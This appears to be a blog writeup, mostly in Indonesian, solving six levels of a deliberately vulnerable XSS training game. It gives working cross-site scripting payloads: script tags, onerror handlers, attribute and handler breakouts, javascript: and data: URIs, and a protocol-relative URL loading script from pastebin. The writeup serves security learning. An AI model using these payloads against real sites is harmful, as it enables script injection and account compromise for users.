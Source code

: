 ```yaml
---
layout: post
title: "XSS Appspot Writeup: Level 1 - 5"
description: "Writeup XSS Appspot"
headline: 
modified: 2017-01-31
date: 2017-01-31
category: Web Exploitation
tags: [xss,Web Exploitation]
imagefeature: /images/xss-appspot.PNG
mathjax: 
chart: 
comments: true
featured: false
---
```


## Level 1

### Problem

This level demonstrates a common cause of cross-site scripting where user input is directly included in the page without proper escaping. 

Interact with the vulnerable application window below and find a way to make it execute JavaScript of your choosing. You can take actions inside the vulnerable window or directly edit its URL bar.
    
### Solution

parameter query langsung masuk sebagai html jadi kita bisa kirim payload `<script>alert(1)</script>`


## Level 2

### Problem

Web applications often keep user data in server-side and, increasingly, client-side databases and later display it to users. No matter where such user-controlled data comes from, it should be handled carefully. 

This level shows how easily XSS bugs can be introduced in complex apps.

### Solution 

Payload `<img src="x" onerror="alert(1)">`


## Level 3

### Problem 

As you've seen in the previous level, some common JS functions are execution sinks which means that they will cause the browser to execute any scripts that appear in their input. Sometimes this fact is hidden by higher-level APIs which use one of these functions under the hood. 

The application on this level is using one such hidden sink.

### Solution 

dari potongan javascript ini 

``` javascript

    <script>
      function chooseTab(num) {
        // Dynamically load the appropriate image.
        var html = "Image " + parseInt(num) + "<br>";
        html += "<img src='/static/level3/cloud" + num + ".jpg' />";
        $('#tabContent').html(html);
 
        window.location.hash = num;
 
        // Select the current tab
        var tabs = document.querySelectorAll('.tab');
        for (var i = 0; i < tabs.length; i++) {
          if (tabs[i].id == "tab" + parseInt(num)) {
            tabs[i].className = "tab active";
            } else {
            tabs[i].className = "tab";
          }
        }
 
        // Tell parent we've changed the tab
        top.postMessage(self.location.toString(), "*");
      }
 
      window.onload = function() { 
        chooseTab(self.location.hash.substr(1) || "1");
      }
 
      // Extra code so that we can communicate with the parent page
      window.addEventListener("message", function(event){
        if (event.source == parent) {
          chooseTab(self.location.hash.substr(1));
        }
      }, false);
    </script>
    
```

yang menarik adalah bagian ini `html += "<img src='/static/level3/cloud" + num + ".jpg' />";`
terlihat input kita masuk ke tag img kemudian di tambain " .jpg' "
maka kita bisa kirim payload gambar yang tidak ada , dan kita tambahkan event onerror
payload `' onerror=alert(1) alt='`


## Level 4

### Problem

Every bit of user-supplied data must be correctly escaped for the context of the page in which it will appear. This level shows why.

### Solution

disini fungsi start timer di panggil di dalam onload event dan input kita masuk ke parameter dari fungsi starttime
karena dalam event html kita bisa panggil multiple function jadi kita bisa tambahin function alert pake separator ;
`200');alert(1)` tapi itu belum work sebelum kita kirim pake url encode `200%27%29%3Balert%28%271`

## Level 5

### Problem 

Cross-site scripting isn't just about correctly escaping data. Sometimes, attackers can do bad things even without injecting new elements into the DOM.

### Solution

Input kita di parameter ?next= itu masuk ke dalam tag `<a href="{next}">`
simple kita bisa inject javascriptnya

`javascript:alert(1)`

atau juga bisa pake `data:text/html,<script>alert(1);</script>` yang di urlencode jadi
`data%3Atext%2Fhtml%2C%3Cscript%3Ealert%281%29%3B%3C%2Fscript%3E`

## Level 6

### Problem

Complex web applications sometimes have the capability to dynamically load JavaScript libraries based on the value of their URL parameters or part of location.hash. 

This is very tricky to get right -- allowing user input to influence the URL when loading scripts or other potentially dangerous types of data such as XMLHttpRequest often leads to serious vulnerabilities.

### Solution

Kita ngak bisa pake protocol http atau https untuk load file nya
karena dia ada cek

``` javascript

if (url.match(/^https?:\/\//)) {
        setInnerText(document.getElementById("log"),
          "Sorry, cannot load a URL containing \"http\".");
        return;
      }
      
```

kita host `alert(1)` ke pastebin terus kita load tapi bukan pake http atau https atau protokol lain tapi
pake `//pastebin.com/raw/6aV0qLz3`

read more : [2 Forward slashes](http://stackoverflow.com/questions/9646407/two-forward-slashes-in-a-url-src-href-attribute/9646435#9646435)


![](/images/solve-xss.PNG)